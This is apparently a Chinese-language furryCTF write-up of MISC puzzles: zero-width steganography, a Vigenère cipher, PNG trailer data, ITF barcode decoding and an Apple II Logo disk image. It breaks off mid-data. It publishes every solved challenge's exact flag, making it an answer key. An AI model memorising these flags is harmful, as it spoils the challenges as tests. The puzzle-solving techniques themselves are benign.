## MISC

### A. [beginner]签到题

```text
你们不会还觉得这次的签到题和去年一样简单吧？

不会哦~！猫猫可是很努力的研究这些东西啦，甚至还拉上了几个新的出题人呢嘿嘿w~

当然，猫猫也不会太为难大家w~

所以，相信很多同学已经听到了比赛页面的钢琴声了，猫猫的问题是：

这个钢琴声是改编自哪个游戏呢？

注：flag格式为furryCTF{游戏名称的拼音}，例如植物大战僵尸2对应的flag就是furryCTF{zhiwudazhanjiangshi2}

这里还有一些描述：

相比原曲多了很多轻快的声音，原曲可以说是天庭戒备森严的庄重，up主弹的更像天庭那令人向往的仙境的声音。
```



网易云听歌识曲听出来是**彩虹楼**

> **furryCTF{zaomengxiyou3}**

### B. [misc]猫猫的故事

```text
遥望身旁的星球，‌‌‌‌‍‬‍‬仿佛近在咫尺，但好似遥不可及。

小白出神的望着这一切‌‌‌‌‍‍‍，身后的尾巴也停止了往日里的摆动。 “什么时候……我才能到达那儿……”

“小白！你又想什么呢？”玛蒙看了一眼出神的小白，默默叹了口气。‌‌‌‌‍‌‬

“‌‌‌‌‍‌‬唉？！玛……玛蒙，‌‌‌‌‍‬‍你怎么也过来了？”‌‌‌‌‍‌‌回过神来的小白看到忽然出现的玛蒙，不由得吓了一跳。

“我还想问你呢……宁愿不睡觉你也要来这里看星空，都不注意自己的身体……”玛蒙有些无奈的走到小白身旁‌‌‌‌‍‍‍‌，‌‌‌‌‍‌‍‬抬头看了看小白当初所遥望的那片星空‌‌‌‌‍‬：“那里……小白……”

“我想他们……”小白握住了拳头，尽力克制着自己‌‌‌‌‍‌‬‌。

玛蒙无言，只是拍了拍小白的肩膀：“入秋了，‌‌‌‌‌‌‌你知道吗？”‌‌‌‌‍‌‌ 小白默默地摇摇头。

“看来你早就忘记了注意季节的更替‌‌‌‌‍‬‍‍……”玛蒙望着小白蓝色的眼眸，不觉也有些失神：“自从你离开了他们，你每天夜里都像这样望着星空……”

“玛蒙，你看那里，他们就在那儿……”小白伸出爪子，指着不远处的星空，声音却哽咽起来。

“我……我想陪着他们啊！”

‌‌‌‌‍‍一滴水珠，从小白的脸庞滑落，玛蒙伸出爪子，摸了摸小白的脑袋，可最终……什么也没说‌‌‌‌‍‍‍‌。

小白擦了擦眼泪，可眼眶中的泪水却怎么也擦不掉‌‌‌‌‍‬‬‌。‌‌‌‌‍‬‬‍

“还要多久才能和他们接近……”

‌‌‌‌‍‌“小白，你相信……托梦吗？”玛蒙忽然想到了什么‌‌‌‌‍‍‌‌‌‌‍‌‬‍：“‌‌‌‌‍‌或许我们可以通过梦境陪着他们。”

“真的吗？”小白抬起头望向玛蒙。

“当然是真的‌‌‌‌‍‍，不然我怎么会说出来？‌‌‌‌‍‌‬‬”玛蒙见状，勉强露出了微笑‌‌‌‌‍‍‍。

“那我们走吧！”小白听了，立马向回跑去。 ‌‌‌‌‍‌ “小白，你去哪儿啊？‌‌‌‌‍‍‌”

“我想……做个梦给他们。”

星空之下，一大一小两个身影‌‌‌‌‍‍，在这颗荒芜的星球上，又一次留下了自己的痕迹。

‌‌‌‌‍‌‌‍而那颗水珠，仍在刚刚小白所立之处，‌‌‌‌‍‍‌‌‌‌‍‌‍‌闪烁着晶莹的光辉……
```

[Unicode Steganography with Zero-Width Characters](https://330k.github.io/misc_tools/unicode_steganography.html)

隐写。~~一开始还以为小白站的地方有flag~~

> furryCTF{H0pe_This_Is_Just_A_Dre6m}

### C. [misc]安装包

```text
猫猫为了方便大家安装相应的环境，打包了一个安装包。

只是，粗心的猫猫没有发现：

他忘了把安装脚本加入到安装包里面了……
```



在相应目录找到文件



> 注意不要把exe报错的窗口关掉，否则会自动执行删除还是找不到这个目录

得到

```text
koiiwEMK{M0q_Kf_Fkwj_K12a_Ze_Gp5mfqfvi?}
```

鉴定为维吉尼亚加密，密钥可以用前面的几位算出来

```python
def vigenere_decrypt(ciphertext, key):
    decrypted_text = []
    key_index = 0
    key = key.lower()

    for char in ciphertext:
        if char.isalpha():
            shift = ord(key[key_index % len(key)]) - ord('a')
            if char.islower():
                decrypted_char = chr((ord(char) - ord('a') - shift) % 26 + ord('a'))
            elif char.isupper():
                decrypted_char = chr((ord(char) - ord('A') - shift) % 26 + ord('A'))
            decrypted_text.append(decrypted_char)
            key_index += 1
        else:
            decrypted_text.append(char)  

    return ''.join(decrypted_text)

ciphertext = "koiiwEMK{M0q_Kf_Fkwj_K12a_Ze_Gp5mfqfvi?}"
key = "furryCTF"
plaintext = vigenere_decrypt(ciphertext, key)
print("解码后的明文:", plaintext)
```

> furryCTF{H0w_To_Hide_F12g_In_In5taller?}

### D. [misc]丢失的文档

```text
因为一场停电，猫猫刚写了一半的小说无了……
```



直接打开会发现这样的情况。

把文件后缀改成.doc就直接出来了。

```text
对应的flag为：
furryCTF{How_To_F1x_This_Wor6_D0cument}
123
```

> furryCTF{How_To_F1x_This_Wor6_D0cument}

### E. [misc]黑暗

```text
猫猫又有什么坏心思呢.png

猫猫的坏心思多着呢.png
```

010 8个图片尾部提取信息

ZnVycnlDVEZ7SGVsbG9fSUVORF9Bd0F9

Base64解码

> furryCTF{Hello_IEND_AwA}

### F. [misc]校园浏览器

```text
猫猫在很多年前为了校园科技节做了一个校园浏览器，不过最近猫猫做了一次更新：

https://aerfaying.com/Projects/366968

你猜猫猫更新了啥.jpg
```

题目提示为更新，更新了什么即日志



> furryCTF{Love_The_Campus_Forever}

### I. [misc]ITF-72

```text
猫猫手撕了一个不太标准的ITF-72条形码：
（你猜下面这玩意是什么？） {0:"11000",1:"10100",2:"10010",3:"10001",4:"01100",5:"01010",6:"01001",7:"00110",8:"00101",9:"00011"}
```


非预期首杀。

看到条形码就想扫了。

```python
# 用于提取条形码的黑白条纹长度序列，并可视化该序列。
import cv2
import numpy as np
import matplotlib.pyplot as plt

def extract_barcode_sequence(image_path):
    # 读取图像
    image = cv2.imread(image_path)
    if image is None:
        raise ValueError("无法读取图像，请检查路径是否正确。")

    # 转换为灰度图
    gray = cv2.cvtColor(image, cv2.COLOR_BGR2GRAY)

    # 应用Otsu's方法进行二值化
    _, binary = cv2.threshold(gray, 0, 255, cv2.THRESH_BINARY | cv2.THRESH_OTSU)

    # 获取图像的中间一行
    height = binary.shape[0]
    middle_row = binary[height // 2]

    # 初始化变量
    sequence = []
    current_color = middle_row[0]
    count = 1

    # 遍历中间行的像素，记录颜色变化和宽度
    for pixel in middle_row[1:]:
        if pixel == current_color:
            count += 1
        else:
            # 记录当前颜色和宽度
            if current_color == 0:
                sequence.append(count)  # 黑色为正值
            else:
                sequence.append(-count)  # 白色为负值
            # 重置计数和当前颜色
            current_color = pixel
            count = 1
    # 记录最后一个条纹
    if current_color == 0:
        sequence.append(count)
    else:
        sequence.append(-count)

    return sequence, binary

def plot_barcode_sequence(sequence):
    # 生成条纹的索引
    indices = np.arange(len(sequence))

    # 创建图形
    plt.figure(figsize=(12, 4))
    bars = plt.bar(indices, sequence, color=['black' if val > 0 else 'white' for val in sequence], edgecolor='black')

    # 设置背景颜色为灰色，以便白色条纹可见
    plt.gca().set_facecolor('gray')

    # 移除x轴和y轴的刻度
    plt.xticks([])
    plt.yticks([])

    # 添加标题
    plt.title('条形码黑白条纹长度序列\n黑色为正值，白色为负值', fontsize=14)

    # 显示图形
    plt.show()

if __name__ == "__main__":
    image_path = "./barcode.jpeg"   # 替换为你的条形码图像路径
    sequence, binary_image = extract_barcode_sequence(image_path)

    # 打印提取的黑白条纹长度序列
    print("黑白条纹长度序列（黑色为正值，白色为负值）:")
    print(sequence)

    # 绘制条纹长度图
    plot_barcode_sequence(sequence)

    # 可视化二值化后的条形码（可选）
    plt.figure(figsize=(6, 3))
    plt.imshow(binary_image, cmap='gray')
    plt.title('二值化条形码')
    plt.axis('off')
    plt.show()
'''
黑白条纹长度序列（黑色为正值，白色为负值）:
[8, -3, 9, -3, 1, -2, 1, -8, 1, -8, 7, -3, 7, -2, 1, -3, 1, -8, 1, -3, 7, -7, 7, -4, 1, -2, 1, -2, 9, -6, 7, -9, 1, -2, 1, -3, 1, -3, 7, -2, 7, -4, 1, -7, 1, -7, 9, -2, 1, -3, 1, -8, 1, -2, 9, -6, 9, -2, 1, -7, 1, -2, 9, -7, 1, -3, 1, -2, 9, -1, 1, -8, 1, -2, 9, -7, 1, -5, 9, -3, 1, -4, 1, -2, 9, -6, 1, -2, 9, -7, 1, -2, 1, -7, 9, -2, 1, -3, 1, -8, 1, -6, 9, -1, 9, -2, 1, -7, 9, -1, 9, -1, 1, -3, 1, -8, 1, -9, 1, -2, 9, -6, 1, -2, 9, -2, 1, -7, 1, -1, 9, -6, 9, -3, 1, -2, 9, -7, 1, -2, 1, -2, 9, -1, 1, -9, 9, -5, 9, -7, 1, -2, 1, -3, 1, -2, 9, -1, 1, -2, 1, -9, 1, -8, 9, -1, 1, -8, 9, -1, 9, -5, 1, -3, 1, -2, 9, -1, 8, -1, 1, -9, 1, -8, 1, -3, 8, -1, 9, -6, 1, -8, 1, -3, 1, -4, 1, -5, 9, -1, 9, -2, 1, -8, 1, -3, 1, -8, 9, -5, 9, -1, 1, -3, 1, -4, 1, -2, 1, -3, 1, -7, 8, -6, 9, -1, 9, -2, 1, -2, 1, -3, 9, -6, 1, -9, 1, -2, 9, -1, 1, -7, 9, -2, 1, -7, 1, -7, 9, -2, 1, -3, 1, -6, 9, -2, 9, -6, 9, -1, 1, -3, 1, -8, 1, -3, 1, -2, 9, -1, 1, -3, 9, -5, 1, -8, 9, -7, 1, -8, 1, -3, 1, -2, 9, -1, 1, -6, 9, -2, 9, -1, 1, -4, 1, -5, 9, -2, 1, -3, 9, -6, 1, -3, 1, -7, 9, -7, 1, -2, 1, -3, 9, -2, 1, -7, 1, -8, 1, -3, 1, -6, 9, -2, 9, -2, 1, -8, 1, -3, 1, -5, 9, -2, 9, -2, 1, -3, 1, -7, 1, -2, 9, -6, 9, -1, 9, -1, 9, -7, 1, -7, 1, -2, 1, -4, 1, -6, 9, -2, 1, -9, 1, -2, 9, -6, 9, -1, 1, -2, 9, -1]

'''
```

然后对这个序列进行处理

```python
import numpy as np 

def threshold_array_separated(array, pos_threshold=3, neg_threshold=-3):
    """
    分别对数组中的正数和负数进行阈值处理：
    - 正数：如果元素 > pos_threshold，则置为 1，否则置为 0
    - 负数：如果元素 < neg_threshold，则置为 1，否则置为 0

    参数:
        array (list or np.array): 输入的数组
        pos_threshold (float): 正数的阈值下界
        neg_threshold (float): 负数的阈值上界

    返回:
        tuple: (正数二进制序列, 负数二进制序列)
    """
    arr = np.array(array)
    pos_arr=[]
    neg_arr=[]
    for a in arr:
        if a > 0:
            pos_arr.append(a)
        else:
            neg_arr.append(a)
    pos_result = []
    neg_result = []
    for pa in pos_arr:
        if pa > pos_threshold:
            pos_result.append(1)
        else:
            pos_result.append(0)
    for na in neg_arr:
        if na < neg_threshold:
            neg_result.append(1)
        else:
            neg_result.append(0)
    pos_result = np.array(pos_result)
    neg_result = np.array(neg_result)
    # print(f"正数二进制序列长度: {len(pos_result)}")
    # print(f"负数二进制序列长度: {len(neg_result)}")
    return pos_result, neg_result

def decode_sequence(binary_sequence, encoding_map, trim_start=3, trim_end=3):
    """
    解码二进制序列为数字序列。

    参数:
        binary_sequence (list or np.array): 二进制序列（0和1）
        encoding_map (dict): 二进制到数字的映射字典
        trim_start (int): 开始截取的位数
        trim_end (int): 结束截取的位数

    返回:
        str: 解码后的数字序列
    """
    binary_str = ''.join(str(bit) for bit in binary_sequence)
    if trim_start > 0 or trim_end > 0:
        binary_str = binary_str[trim_start:-trim_end]
    print(f"解码前二进制字符串长度: {len(binary_str)}")
    if len(binary_str) % 5 != 0:
        raise ValueError("二进制序列的长度不是5的倍数，无法正确分割。")

    decoded_digits = []
    for i in range(0, len(binary_str), 5):
        chunk = binary_str[i:i+5]
        digit = encoding_map.get(chunk)
        if digit is not None:
            decoded_digits.append(digit)
        else:
            decoded_digits.append('?')  # 无法匹配的编码用 '?' 表示
    return ''.join(decoded_digits)

if __name__ == "__main__":
    # 编码映射
    encoding_map = {
        "11000": "0",
        "10100": "1",
        "10010": "2",
        "10001": "3",
        "01100": "4",
        "01010": "5",
        "01001": "6",
        "00110": "7",
        "00101": "8",
        "00011": "9"
    }

    # 示例数组
    sequence = [8, -3, 9, -3, 1, -2, 1, -8, 1, -8, 7, -3, 7, -2, 1, -3, 1, -8, 1, -3, 
               7, -7, 7, -4, 1, -2, 1, -2, 9, -6, 7, -9, 1, -2, 1, -3, 1, -3, 7, -2, 
               7, -4, 1, -7, 1, -7, 9, -2, 1, -3, 1, -8, 1, -2, 9, -6, 9, -2, 1, -7, 
               1, -2, 9, -7, 1, -3, 1, -2, 9, -1, 1, -8, 1, -2, 9, -7, 1, -5, 9, -3, 
               1, -4, 1, -2, 9, -6, 1, -2, 9, -7, 1, -2, 1, -7, 9, -2, 1, -3, 1, -8, 
               1, -6, 9, -1, 9, -2, 1, -7, 9, -1, 9, -1, 1, -3, 1, -8, 1, -9, 1, -2, 
               9, -6, 1, -2, 9, -2, 1, -7, 1, -1, 9, -6, 9, -3, 1, -2, 9, -7, 1, -2, 
               1, -2, 9, -1, 1, -9, 9, -5, 9, -7, 1, -2, 1, -3, 1, -2, 9, -1, 1, -2, 
               1, -9, 1, -8, 9, -1, 1, -8, 9, -1, 9, -5, 1, -3, 1, -2, 9, -1, 8, -1, 
               1, -9, 1, -8, 1, -3, 8, -1, 9, -6, 1, -8, 1, -3, 1, -4, 1, -5, 9, -1, 
               9, -2, 1, -8, 1, -3, 1, -8, 9, -5, 9, -1, 1, -3, 1, -4, 1, -2, 1, -3, 
               1, -7, 8, -6, 9, -1, 9, -2, 1, -2, 1, -3, 9, -6, 1, -9, 1, -2, 9, -1, 
               1, -7, 9, -2, 1, -7, 1, -7, 9, -2, 1, -3, 1, -6, 9, -2, 9, -6, 9, -1, 
               1, -3, 1, -8, 1, -3, 1, -2, 9, -1, 1, -3, 9, -5, 1, -8, 9, -7, 1, -8, 
               1, -3, 1, -2, 9, -1, 1, -6, 9, -2, 9, -1, 1, -4, 1, -5, 9, -2, 1, -3, 
               9, -6, 1, -3, 1, -7, 9, -7, 1, -2, 1, -3, 9, -2, 1, -7, 1, -8, 1, -3, 
               1, -6, 9, -2, 9, -2, 1, -8, 1, -3, 1, -5, 9, -2, 9, -2, 1, -3, 1, -7, 
               1, -2, 9, -6, 9, -1, 9, -1, 9, -7, 1, -7, 1, -2, 1, -4, 1, -6, 9, -2, 
               1, -9, 1, -2, 9, -6, 9, -1, 1, -2, 9, -1]

    # 分别进行阈值处理
    pos_thresholded, neg_thresholded = threshold_array_separated(sequence, pos_threshold=4, neg_threshold=-4)

    # 打印阈值处理后的序列
    print("正数阈值处理后的序列:")
    print(pos_thresholded)

    print("\n负数阈值处理后的序列:")
    print(neg_thresholded)

    # 解码正数序列
    try:
        decoded_pos = decode_sequence(pos_thresholded, encoding_map)
        print("\n解码后的正数数字序列:")
        print(decoded_pos)
    except ValueError as e:
        print(f"正数解码错误: {e}")

    # 解码负数序列
    try:
        decoded_neg = decode_sequence(neg_thresholded, encoding_map)
        print("\n解码后的负数数字序列:")
        print(decoded_neg)
    except ValueError as e:
        print(f"负数解码错误: {e}")
'''
正数阈值处理后的序列:
[1 1 0 0 0 1 1 0 0 0 1 1 0 0 1 1 0 0 0 1 1 0 0 1 0 0 0 1 1 0 0 1 0 0 1 0 0
 1 0 1 0 0 1 0 1 0 0 1 0 0 0 1 1 0 1 1 0 0 0 0 1 0 1 0 0 1 1 0 1 0 0 1 0 1
 1 0 0 0 1 0 0 0 1 0 1 1 0 0 1 1 0 0 0 1 1 0 0 0 0 1 1 0 0 0 1 1 0 0 0 0 0
 1 1 1 0 0 1 0 0 1 0 1 0 0 1 0 0 1 1 1 0 0 0 0 1 0 1 0 1 0 0 0 1 0 1 1 0 0
 1 0 1 0 0 1 0 0 1 0 0 0 0 1 1 0 0 0 1 1 0 0 0 1 1 1 1 0 0 0 0 1 0 0 1 1 0
 1]

负数阈值处理后的序列:
[0 0 0 1 1 0 0 0 1 0 1 0 0 0 1 1 0 0 0 0 0 1 1 0 0 1 0 1 0 1 0 1 0 0 0 1 0
 1 1 0 0 0 1 0 1 0 1 0 0 1 1 0 0 1 0 0 0 1 1 0 1 0 0 1 0 1 0 0 1 0 0 0 1 1
 1 0 0 0 0 0 1 1 0 1 0 1 0 0 0 0 1 1 0 0 1 1 0 0 1 0 0 1 0 1 1 0 0 0 0 0 1
 1 0 0 0 0 1 1 0 0 1 0 1 1 0 0 1 0 1 0 0 1 0 0 0 0 1 1 1 1 0 0 0 1 0 0 0 1
 0 0 1 0 1 1 0 0 0 1 1 0 1 0 0 1 0 1 0 0 0 1 0 1 0 0 1 1 0 0 1 0 1 0 1 0 0
 0]
解码前二进制字符串长度: 180

解码后的正数数字序列:
774432666948720340044925605341299906
解码前二进制字符串长度: 180

解码后的负数数字序列:
01498583543113071742079822903831154?
'''
```



然后再对正负数字序列进行处理。在处理之前这个？先处理了

根据图像看出来最后的0和1有点小误差，因为每五位只能有2个是1，其他都是0，最后结果只有两种可能，这个？只能是8或者1.

```python
def interleave_sequences(seq1, seq2):
    """
    将两个等长的数字序列按照奇数和偶数位置交替排列。

    参数:
        seq1 (str): 第一个数字序列（用于奇数位置）
        seq2 (str): 第二个数字序列（用于偶数位置）

    返回:
        str: 交替排列后的新序列
    """
    if len(seq1) != len(seq2):
        raise ValueError("两个序列的长度必须相同。")

    interleaved = []
    for i in range(len(seq1)):
        interleaved.append(seq1[i])  # 奇数位置
        interleaved.append(seq2[i])  # 偶数位置

    return ''.join(interleaved)

if __name__ == "__main__":
    # 输入序列
    seq1 = "774432666948720340044925605341299906"
    seq2 = "014985835431130717420798229038311541"

    # 验证两个序列的长度是否相同
    if len(seq1) != len(seq2):
        print("错误：两个序列的长度不相同，无法进行交替排列。")
    else:
        # 进行交替排列
        combined_sequence = interleave_sequences(seq1, seq2)

        # 打印结果
        print("交替排列后的序列:")
        print(combined_sequence)
'''
交替排列后的序列:
707144493825686365944381712300374107044240972958620259304318239191950461
'''
```

接下来就可以解码了。(ps:这个比赛怎么那么喜欢这样弄，同一个脚本里面出了4个flag zwz)

```python
big_number = '707144493825686365944381712300374107044240972958620259304318239191950461'
hex_str = hex(int(big_number))[2:]  
if len(hex_str) % 2 != 0:
    hex_str = '0' + hex_str
ascii_str = bytes.fromhex(hex_str).decode('ascii', errors='ignore')  
print(ascii_str)

'''
furryCTF{Easy_Barc0de_T0_Read}
'''
```

> furryCTF{Easy_Barc0de_T0_Read}

### J. [misc]过去的记忆

```text
出题人：石灰

猫猫的一个大朋友在整理东西的时候发现了一张早就落满灰尘的软盘。

在猫猫的协助下，他们对软盘进行了dump。

“这不是我们以前学的海龟代码吗……？”
```

给了个flag.dsk。

```bash
s3loy@s3loy-233:~/Desktop$ file flag.dsk
flag.dsk: Apple DOS 3.3 Image, Volume #001, 35 Tracks, 16 Sectors, 256 bytes per sector
```

发现是好老的东西。下下来了CiderPress，打开来



发现FLAG.LOGO。

```log
TO NEXTLINE :B
 IF :B > 0 PU BK :B RT 90 FD 1 LT 90
 IF :B < 0 PU BK 0 - :B RT 90 FD 2 LT 90
END

TO SCANLINE :PDATA
 TEST :PDATA = []
 IFTRUE STOP
 MAKE "D FIRST :PDATA
 MAKE "FOLLOW BUTFIRST :PDATA
 IF :D = 0 NEXTLINE FIRST :FOLLOW MAKE "FOLLOW BUTFIRST :FOLLOW
 IF :D > 0 PD FD :D
 IF :D < 0 PU FD 0 - :D
 SCANLINE :FOLLOW
END

TO SHOWFLAG
 HOME
 PU
 SETXY - 75 30
 RT 90
 SCANLINE [0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 -7 3 0 10 -6 4 -40 5 -2 9 -2 7 -5 2 -6 5 -3 7 -6 5 -8 3 -5 3 -4 3 -5 2 0 147 -5 3 -40 7 -2 9 -2 7 -4 3 -4 7 -3 7 -4 7 -9 3 -3 4 -4 2 -4 4 0 147 -5 3 -39 3 -10 3 -5 3 -7 3 -4 3 -8 2 -8 3 -14 3 -3 4 -4 2 -3 5 0 147 -5 3 -38 3 -11 3 -5 3 -7 3 -3 3 -9 2 -7 3 -15 3 -3 5 -2 3 -3 1 -1 3 0 147 -4 6 -1 3 -3 3 -2 3 -1 2 -1 3 -1 5 -4 3 -1 3 -11 3 -5 3 -7 3 -3 3 -9 2 -7 3 -15 3 -3 5 -2 3 -5 3 0 147 -4 6 -1 3 -3 3 -2 6 -1 6 -1 2 -4 2 -2 3 -11 3 -5 3 -7 3 -3 3 -9 7 -2 3 -16 2 -2 3 -1 2 -2 2 -6 3 0 147 -5 3 -3 3 -3 3 -2 3 -4 3 -4 3 -3 2 -2 3 -11 3 -5 7 -3 2 -4 3 -9 7 -2 3 -16 3 -1 2 -2 2 -2 2 -6 3 0 147 -5 3 -3 3 -3 3 -2 3 -4 3 -5 2 -2 3 -2 3 -11 3 -5 7 -2 3 -4 3 -9 2 -7 3 -16 3 -1 2 -2 3 -1 2 -6 3 0 147 -5 3 -3 3 -3 3 -2 3 -4 3 -5 2 -2 2 -3 3 -11 3 -5 3 -6 3 -4 3 -9 2 -7 3 -16 6 -2 6 -6 3 0 147 -5 3 -3 3 -3 3 -2 3 -4 3 -5 3 -1 2 -3 3 -11 3 -5 3 -7 2 -4 3 -9 2 -7 3 -17 5 -3 4 -7 3 0 147 -5 3 -3 3 -3 3 -2 3 -4 3 -6 4 -5 3 -10 3 -5 3 -7 3 -4 3 -8 2 -8 3 -16 4 -4 4 -7 3 0 147 -5 3 -4 8 -2 3 -4 3 -6 4 -6 7 -5 3 -5 3 -7 3 -5 7 -3 7 -4 7 -11 4 -4 4 -7 3 0 147 -5 3 -4 4 -1 3 -2 3 -4 3 -7 3 -7 6 -5 3 -5 3 -7 3 -6 6 -3 7 -5 6 -11 4 -4 4 -7 3 0 147 -39 2 -37 3 0 81 -38 3 -38 3 -33 7 0 122 -36 4 -40 2 -33 7 0 122 -36 3 0 39 0 0 0 0 0 0 -11 3 -115 3 -4 3 0 139 -11 3 -15 3 -10 5 -9 6 -5 4 -11 4 -17 8 -9 2 -6 4 -3 4 -1 2 0 142 -6 2 -3 3 -15 3 -8 8 -6 8 -4 6 -10 4 -17 10 -5 4 -5 3 -4 3 -3 3 0 143 -5 3 -3 3 -15 3 -7 3 -4 3 -4 4 -8 3 -2 3 -10 2 -18 3 -4 3 -4 5 -5 3 -4 3 -4 2 0 143 -5 3 -3 3 -15 3 -6 3 -6 3 -3 